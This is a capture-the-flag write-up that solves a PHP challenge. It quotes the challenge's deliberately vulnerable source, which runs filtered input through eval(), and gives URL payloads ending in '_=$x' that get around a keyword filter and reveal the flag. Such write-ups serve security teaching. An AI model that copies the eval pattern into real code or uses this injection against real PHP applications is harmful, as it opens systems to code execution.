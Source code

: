 # Challenge description

Dali likes PhP because it's weird and has a lot of bugs. Is that really true ?
Link: http://20.119.58.135:1234

**Author: Kahla**

-----------------------------------------------------------

we were provided this php source code

```php

<?php
//Show Page code source
highlight_file(__FILE__);
require "secret.php";
if(isset($_GET["__"])&&isset($_GET["_"])){
$x=$_GET["__"];
$inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
if($inp==="Kahla"){
    die("Hacking Attempt detected");
}
else{
    if(eval("return $inp=".$inp.";")==="Kahla"){
        echo $flag;
    }
    else{
        die("Pretty Close maybe ?");
    }
}
}
?>

```

trying to send **"Kahla"** in the **_** param prints out this prompt

Payload : ``` http://20.119.58.135:1234/?__=&_=Kahla; ``` 

Output : 

![a](https://user-images.githubusercontent.com/58823465/151814781-7f079c2b-0cf4-42eb-8a71-250713e79fca.png)


We notice that we have the other **__** param too that we haven't trie to use yet 
and it seems sorta useless but its there soo we might as well just use it right?

So we know that the code is filtering the word **Kahla** and won't allow us to get the flag with it 
so how about we use the **__** to send it to the **_** param? since it's not verifying that param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$_GET[__] ```

Output : ![6](https://user-images.githubusercontent.com/58823465/151814811-b5b61141-c69c-47ba-a3dd-73827772fffc.png)


well i guess we're pretty close :/ ?
We can't use the **GET** to send the param because the regex won't allow the [] characters 
But notice that we have a **$x** variable in the source code that takes the **__** value !!
all we need to do is just to pass that through the **_** param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$x ```

Output : ``` Securinets{PeehPee_1s_AlWAYs_H3r3} ```

And there's our flag!





